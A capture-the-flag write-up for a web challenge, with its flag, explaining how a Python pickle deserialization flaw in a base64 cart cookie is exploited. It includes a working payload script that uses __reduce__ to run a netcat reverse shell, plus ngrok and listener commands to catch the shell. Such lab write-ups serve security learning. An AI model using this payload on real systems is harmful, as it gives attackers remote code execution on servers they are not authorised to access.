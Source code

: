 A serial killer has decided to sell all his victims' possessions on this website. Hack it before he sells any of the items!

300pts(hard)
ApoorvCTF{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}
hint cost: 50pts
hint: try to find where the cart items of the user are stored
web exploiation
#web

Writeup:
Challenge name and description suggests that this a deserialization vulnerability involving the pickle module from python.
Upong accessing and using the site we see that cart items are somehow stored in a cookie in a serialized base64 encoded form.
When serialized objects are deserialized they are initialized and instantiated using some pre defined methods before being used later on in the code.
One such method is the __reduce__() method which we can alter for our purpose.
So we can create an object with a malicious __reduce__() method which would essentially be a reverse shell payload.
Here, we are going to use a netcat reverse shell payload.

Script to generate our malicious serialized cart value:

import pickle, base64, os

class payload(object):
    def __reduce__(self):
        return (os.system, (f'nc -nv <your ip> <port> -e /bin/bash',))

deserialpayload = payload()
serialpayload = pickle.dumps(deserialpayload)
print(base64.b64encode(serialpayload))

Now to provide our ip, we need to use port forwarding using ngrok since we are connected to the internet using a router and only the router's ip is visible to the internet.
First setup a netcat listener using nc -nvlp 1234
Now, after installing and setting up ngrok, execute ngrok tcp 1234 which would basically forward our local tcp port 1234 to an external port directly accessible from the internet.
Note down the domain name of the external address and the port given by ngrok for our use.
Now, execute ping <domain name> to find the ip address of that domain name. (You can use any other method to find the domain name)
Now put this ip address in place of "<your ip>" and the port we got from ngrok in place of <port> in the python script.
Execute it to get the serialized cart value and set it as your cookie.
Now click on Cart on the website and voila you have a shell!

Author : WebGaurav
